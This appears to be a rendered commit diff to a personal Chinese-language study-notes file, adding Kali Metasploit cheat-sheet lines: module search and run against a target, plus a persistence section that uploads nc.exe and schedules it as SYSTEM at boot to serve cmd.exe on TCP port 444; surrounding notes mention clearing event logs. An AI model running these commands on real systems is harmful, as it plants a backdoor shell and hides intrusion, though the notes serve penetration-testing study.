

Before and after one commit to swdxiaoxiao/witer_markdown, a Markdown page: 笔记.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
修改文件: 笔记.md

```diff
--- a/笔记.md
+++ b/笔记.md
@@ -570,6 +570,20 @@ IPv6由128个bit组成
 
 
 # Kali
+进入msfconsloe
+>msfconsloe
+>>安静的进入
+>>msfconsole -q
+
+查找[漏洞]并使用对应的模块
+>search [漏洞编号]
+>==//查找模块 #929292==
+>use [模块编号]/[模块名]
+>==//使用模块 #929292==
+>set rhoost [目标地址]
+>==//设置要使用模块攻击的目标IP #929292==
+>run
+>==//运行模块 #929292==
 
 #### **meterpreter:**
 **获取用户账户和加密的密码**
@@ -628,3 +642,12 @@ IPv6由128个bit组成
 
 **清除日志**(返回meterpreter[exit])
 >clearev
+
+#### **持久性后门程序植入**
+**上传后门文件(木马)**
+>upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
+
+**将 nc.exe 添加开机启动，监听TCP 444端口**
+>shell
+>chcp 65001
+>schtasks /create /tn "nc" /ru system /tr "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /sc onstart
```
